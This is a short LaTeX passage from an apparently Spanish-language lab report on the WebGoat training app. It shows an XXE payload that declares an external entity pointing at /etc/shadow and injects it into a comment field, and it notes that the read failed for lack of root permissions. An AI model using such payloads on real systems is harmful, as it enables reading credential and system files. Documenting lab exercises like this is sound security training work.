 \documentclass[12pt,oneside,a4paper]{book}
\begin{document}
\begin{enumerate}
\begin{enumerate}
        \vspace{2em}

        \textbf{Fichero /etc/shadow} (Debido a que el usuario que ejecuta el sistema es \textit{webgoat}, los ficheros shadow y sudoers no se pueden visualizar, ya que se necesitan permisos \textit{sudo} o ser usuario root para visualizarlo).

        \vspace{1em}

        \begin{verbatim}
<?xml version="1.0"?>
    <!DOCTYPE replace [<!ENTITY xxe_attack SYSTEM "file:///etc/shadow"> ]>
        <comment>
            <text>
                &xxe_attack;
            </text>
        </comment>
        \end{verbatim}

        \newpage

        \begin{center}
            \includegraphics[width=12cm]{img/xxe11.png}
            
            \vspace{0.1em}
            
            Fig. 37: Fichero /etc/shadow
        \end{center}

        \vspace{2em}


\end{enumerate}
\end{enumerate}
\end{document}
